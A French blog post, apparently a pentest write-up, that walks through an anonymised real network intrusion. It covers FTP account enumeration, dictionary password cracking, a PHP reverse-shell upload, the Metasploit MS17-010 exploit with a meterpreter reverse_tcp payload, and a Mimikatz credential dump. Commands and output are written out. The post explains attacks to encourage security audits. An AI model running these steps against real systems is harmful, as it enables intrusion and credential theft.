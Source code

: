 ```yaml
---
layout: post
title:  "Anatomie d'une attaque informatique"
date:   2018-02-17 21:14:48 +0100
---
```


Au cours de cet article, je vous propose de décortiquer le processus d'une attaque informatique à distance. Il s'agit d'un cas réel, pour lequel l'entreprise a entrepris des actions correctives. Pour des raisons éthiques, toute information potentiellement sensible a été anonymisée ou supprimée.

Comme l'indique le schéma ci-après, un attaquant (à droite et en rouge) connecté à internet, tente de s'introduire sur le réseau de l'entreprise (à gauche).

![](/notes/img/20180217102110-attaque-informatique.png)

#### Phase 1 - Découverte
En premier lieu l'attaquant va énumérer les services logiciels fournis par l'entreprise sur internet. Bien souvent le management n'a pas connaissance de l'existence de ses services, et des risques encourus
L'attaquant découvre :

- Un site internet
- Un serveur de transfert de fichiers (FTP)

Le serveur FTP est accessible en mode _anonyme_, ce qui permet une connexion sans pouvoir utiliser les fonctions de transfert de fichier. On peut considérer que le mode anonyme est "sécurisé". Toutefois il permet d'obtenir une information qui peut paraître anodine, mais qui a une grande importance pour la suite : le nom de compte d'un utilisateur "administrateur" peut être découvert lors d'une connexion anonyme.

	root@attaquant:~ $ ftp ftp.entreprise.fr
	Connected to ftp.entreprise.fr.
	220 xxx.xxx.xxx.xxx FTP server ready
	Name (ftp.entreprise.fr:root): anonymous
	331 Anonymous login ok, send your complete email address as your password
	Password:
	230 Anonymous access granted, restrictions apply
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> passive
	Passive mode on.

La commande `ls -lha` donne l'information concernant la présence d'un compte "admin" sur le serveur FTP.

	ftp> ls -lha
	227 Entering Passive Mode
	150 Opening ASCII mode data connection for file list
	drwxr-s---   2 admin    group       4.0k Dec  6  2017 .
	drwxr-s---   2 admin    group       4.0k Dec  7  2017 ..
	226 Transfer complete
	ftp>

#### Phase 2 - tentative d'accès non autorisé
L'attaquant sait désormais qu'une personne s'identifie auprès du serveur en tant que "admin".
Il va mener sur ce compte une simple attaque basée sur un dictionnaire de mots de passe. Ces dictionnaires sont librement téléchargeables sur le web.

Grâce à des outils comme **hydra** ou **medusa**, l'attaquant obtient le mot de passe du compte FTP admin.

    ACCOUNT FOUND: [ftp] Host : xxx.xxx.xxx.xxx
    User: admin Password: tintin [SUCCESS]

#### Phase 3 - obtenir un accès plus complet au serveur
Désormais l'attaquant en tant qu'admin, possède des permissions d'écriture sur le serveur web.
Il lui est donc permis d'envoyer sur le serveur une backdoor qui établira une connexion vers sa machine quand elle sera exécutée.


	ftp> cd html
	250 CWD command successful
	ftp> put shell.php
	local: shell.php remote: shell.php
	227 Entering Passive Mode.
	150 Opening BINARY mode data connection for shell.php
	226 Transfer complete
	1113 bytes sent in 0.00 secs (14.9499 MB/s)

L'éxécution de shell.php initie une connexion vers la machine de l'attaquant. Ce dernier dispose ainsi d'un shell sur le serveur (et plus seulement un accès FTP) qui lui permet de mener d'autres actions sur le réseau interne de l'entreprise.


#### Phase 4 : identifications des machines du réseau et de leurs vulnérabilités
L'attaquant balaie et identifie les machines du réseau. Il découvre un serveur Active Directory vulnérable à MS17-010.

	msf > use auxiliary/scanner/smb/smb_ms17_010
	msf auxiliary(scanner/smb/smb_ms17_010) > set RSHOSTS xxx.xxx.xxx.xxx/24
	rhosts => xxx.xxx.xxx.xxx/24
	msf auxiliary(scanner/smb/smb_ms17_010) > run
	[+] xxx.xxx.xxx.xxx:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard
	[*] Scanned 1 of 1 hosts (100% complete)
	[*] Auxiliary module execution completed

#### Phase 5 : exploitation de la vulnérabilité MS17-010
Grâce au framework metasploit, l'attaquant exploite la vulnérabilité MS17-010 non corrigée et obtient un accès au serveur Active Directory.

	msf auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_psexec
	msf exploit(windows/smb/ms17_010_psexec) > set RHOST xxx.xxx.xxx.xxx
	msf exploit(windows/smb/ms17_010_psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
	msf exploit(windows/smb/ms17_010_psexec) > set LPORT 443
	msf exploit(windows/smb/ms17_010_psexec) > run
	[*] Started reverse TCP handler on xxx.xxx.xxx.xxx:443
	[*] xxx.xxx.xxx.xxx:445 - Target OS: Windows Server 2008 R2 Standard 7601 Service Pack 1
	[*] xxx.xxx.xxx.xxx:445 - Built a write-what-where primitive...
	[+] xxx.xxx.xxx.xxx:445 - Overwrite complete... SYSTEM session obtained!
	[*] xxx.xxx.xxx.xxx:445 - Selecting PowerShell target
	[*] xxx.xxx.xxx.xxx:445 - Executing the payload...
	[+] xxx.xxx.xxx.xxx:445 - Service start timed out, OK if running a command or non-service executable...
	[*] Sending stage (179779 bytes) to xxx.xxx.xxx.xxx
	[*] Meterpreter session 3 opened (xxx.xxx.xxx.xxx:443 -> xxx.xxx.xxx.xxx:46491) at 2018-02-10 15:20:38
	meterpreter > background
	[*] Backgrounding session 3...

#### Phase 6 : obtention du mot de passe administrateur du domaine
Grâce à Mimikatz l'attaquant obtient le mot de passe administrateur du domaine, stocké en clair dans la mémoire de la machine.

	meterpreter> load Mimikatz
	meterpreter> wdigest
	0;1368385624  Kerberos   DOMAINE     netadmin       	 1234
	0;2500325002  Kerberos   DOMAINE     user1        	 password1
	0;68817461    Kerberos   DOMAINE     user2          	 password2
	0;2599386119  Kerberos   DOMAINE     user3		password3
	0;2600098700  Kerberos   DOMAINE     administrateur	Very$ecureP@ssw0rdVeryL0ngAndDifficultToGuess
	0;2581308498  Kerberos   DOMAINE     user8         	password8
	0;2589349129  Kerberos   DOMAINE     user4     		password4
	0;2597681195  Kerberos   DOMAINE     user5      	password5
	0;2597641064  Kerberos   DOMAINE     user6         	password6
	0;2595339032  Kerberos   DOMAINE     user7         	password7


L'accès administrateur du domaine étant obtenu, l'attaquant poursuit ses investigations sur l'ensemble des systèmes du réseau, à la recherche d'information sensibles.

#### Conclusion

L’enchaînement de plusieurs vulnérabilités peut mener à la compromission d'un réseau informatique  : tester et auditer votre sécurité.


Tags: pentest
